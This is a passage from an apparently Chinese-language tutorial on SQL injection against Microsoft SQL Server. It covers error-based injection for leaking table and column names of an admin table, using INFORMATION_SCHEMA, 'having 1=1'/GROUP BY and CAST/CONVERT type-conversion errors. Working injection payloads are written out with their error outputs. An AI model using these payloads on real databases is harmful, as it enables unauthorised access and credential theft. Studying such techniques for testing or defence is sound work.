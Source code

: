 ```mssql
在将 varchar 值 '81FAAEN52MA16VBYT4Y1JJ3552BTC1640E7CF84345C86BA6' 转换成数据类型 int 时失败。
```

当然，在mssql中也存在`INFORMATION_SCHEMA`，你也可以通过它来查询。

```mssql
select * from INFORMATION_SCHEMA.TABLES
select * from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='admin'
and 1=(select top 1 table_name from information_schema.tables);--
```

判断表名更方便的一种方式是使用`having 1=1`，`GROUP BY`

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 having 1=1
```

```mssql
选择列表中的列 'Fanmv_Admin.AdminID' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。
```

爆出一列，将其用group by 拼接进去继续往后爆其他的

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 GROUP BY AdminID having 1=1
```

```mssql
选择列表中的列 'Fanmv_Admin.IsSystem' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。
```

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 GROUP BY AdminID,IsSystem having 1=1
```

```mssql
选择列表中的列 'Fanmv_Admin.AdminName' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。
```

以此爆出所有字段

## 报错注入

其实基本注入流程中用到的就是报错注入，mssql中没有报错函数，报错注入利用的就是显式或隐式的类型转换来报错

先来看隐式报错

```mssql
select * from admin where id =1 and (select user)>0
```

user和0进行比较时就会报错

再来看显示报错，一般上显示报错用到的是`cast`和`convert`函数

```mssql
select * from admin where id =1 (select CAST(USER as int))
select * from admin where id =1 (select convert(int,user))
```

这里再来引入一个`declare`
